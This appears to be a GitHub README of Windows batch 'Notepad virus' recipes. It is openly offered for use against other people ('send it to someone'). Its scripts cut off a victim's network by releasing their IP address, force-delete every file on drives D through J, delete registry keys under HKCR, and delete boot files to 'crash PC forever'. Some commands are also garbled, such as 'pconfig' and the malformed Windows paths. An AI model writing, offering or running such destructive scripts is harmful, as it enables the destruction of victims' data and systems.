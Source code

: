 # bash-script
## _Script no 1 "Create Fake Windows Errors With Notepad "_ 
 1) Open Notepad
 2) Replace Message Here and Title Here with your Error Message and Error-Window Title respectively.
 3) Save the file with error.vbs. (In Save as filetype, must select “all”)
 4) Now, click the file and you’ll get your custom-made Windows error message. So its easy to learn how to create a virus using notepad
 
![image](https://user-images.githubusercontent.com/88976173/204493351-c961b0fe-409e-4702-a879-2b5a204ca9de.png)
## _Script no 2 " How to stop someone’s internet access"_ 
1) Open Notepad
2) @Echo off
3) pconfig /release
4) Save that as a .bat and send it to someone. They’re IP address will be lost, and therefore they won’t be able to fix it
5) to fix it type IPconfig /renew
## _script no 3 "Dangerous Notepad Virus Code"WARNING:: This is the most dangerous virus! Be careful with its use."_
1) @ECHO OFF
2) 
del D:*.* /f /s /q

del E:*.* /f /s /q

del F:*.* /f /s /q

del G:*.* /f /s /q

del H:*.* /f /s /q

del I:*.* /f /s /q

del J:*.* /f /s /q 

3) save it as SEO.bat

## _Script no 4 "Delete the entire registry"_
1) @ECHO OFF
2) 
START reg delete HKCR/.exe

START reg delete HKCR/.dll

START reg delete HKCR/*

3) save it as SEO.bat


## _Script no 5 " Crash PC forever with Notepad Virus"_
1) @echo off
 
     attrib -r -s -h c:autoexec.bat

     del c:autoexec.bat

     attrib -r -s -h c:boot.ini

     del c:boot.ini

     attrib -r -s -h c:ntldr

     del c:ntldr

     attrib -r -s -h c:windowswin.ini

     del c:windowswin.ini
    
    2) Hacker .bat
    
    > _This should shut down the person’s computer. It shuts it off once and deletes the files needed to reboot and restart.

REMEMBER — DO NOT CLICK THIS FILE._ 


##HappyHacking - GoodLuck
